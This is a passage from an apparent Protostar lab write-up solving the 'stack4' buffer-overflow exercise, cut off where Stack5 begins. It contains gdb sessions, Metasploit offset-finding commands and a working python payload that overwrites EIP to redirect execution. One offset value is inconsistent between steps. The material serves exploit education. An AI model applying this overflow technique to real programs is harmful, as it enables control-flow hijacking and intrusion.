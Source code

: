 ```lang-clike line-numbers 
```

We need to overwrite **EIP** with **win()** address which is: **0x80483f4**

```lang-bash line-numbers 
user@protostar:~$ gdb -q /opt/protostar/bin/stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) print win
$1 = {void (void)} 0x80483f4 <win>
```

So in theory, we need a payload of 64 bytes and then 4 to overwrite **EBP** and 4 more to overwrite **EIP**, but if we run the following line, no segmentation fault is thrown:

```lang-bash line-numbers 
user@protostar:~$ echo `python -c 'print("A"*64 + "AAAA" + "BBBB")'` | /opt/protostar/bin/stack4
```

That is because the compiler will do his crazy stuff and align buffers in unexpected ways so **EIP** can be further than we think, so we will be using metasploit framework to find the right offset:

```lang-bash line-numbers 
alvaro@winterfell /u/l/s/m/tools> ./pattern_create.rb 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

```lang-bash line-numbers 
user@protostar:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A" > stack4
user@protostar:~$
user@protostar:~$
user@protostar:~$ gdb -q /opt/protostar/bin/stack4Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) run < stack4
Starting program: /opt/protostar/bin/stack4 < stack4

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

Offset is **0x63413563** that corresponds to:

```lang-bash line-numbers 
alvaro@winterfell /u/l/s/m/tools> ./pattern_offset.rb 0x63415663
76
```

So our payload should be shifted 76 bytes from the start of the **buffer**.

```lang-bash line-numbers 
user@protostar:~$ echo `python -c 'print("A"*76 + "\xf4\x83\x04\x08")'` | /opt/protostar/bin/stack4
code flow successfully changed
Segmentation fault
```

##Stack5
[Stack5](http://www.exploit-exercises.com/protostar/stack5) gives us the following code to exploit:
